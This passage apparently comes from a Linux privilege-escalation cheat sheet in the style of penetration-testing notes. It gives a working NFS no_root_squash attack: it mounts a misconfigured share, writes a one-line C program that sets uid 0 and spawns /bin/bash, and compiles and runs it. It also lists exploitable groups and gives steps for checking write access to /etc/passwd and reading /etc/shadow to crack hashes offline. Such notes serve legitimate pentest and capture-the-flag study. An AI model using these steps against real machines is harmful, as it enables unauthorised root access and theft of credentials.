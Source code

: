 **no_root_squash**

We can check if a directory has the value `no_root_squash` using the following command. If the folder has been misconfigured with the value `no_root_squash` then we can mount that directory and run commands as `root`.

Example output:

`/tmp *(rw,sync,insecure,no_root_squash,no_subtree_check)`

```sh
cat /etc/exports

mkdir /tmp/mountme
sudo mount -o rw,vers=2 <IP>:/tmp /tmp/mountme

echo 'int main() { setgid(0); setuid(0); system("/bin/bash"); return 0; }' > /tmp/mountme/exploit.c
gcc /tmp/mountme/exploit.c -o /tmp/mountme/exploit
./exploit
```

### User Enumeration

**Current User**

```sh
whoami
```

**Groups**

```sh
id
```

If any of the following groups appear then they can be exploited:
- `root`
- `sudo/admin/wheel`
- `video`
- `disk`
- `shadow`
- `adm`
- `docker`
- `LXC/LXD`

> https://steflan-security.com/linux-privilege-escalation-exploiting-user-groups/

**Unrestricted Access**

Check if our current user has write access to `/etc/passwd` to potentially add a new user to switch to

```sh
ls -la /etc/passwd
```

Check if our current user has access to the `/etc/shadow` file which should be restricted. If so we can try to crack the hash offline
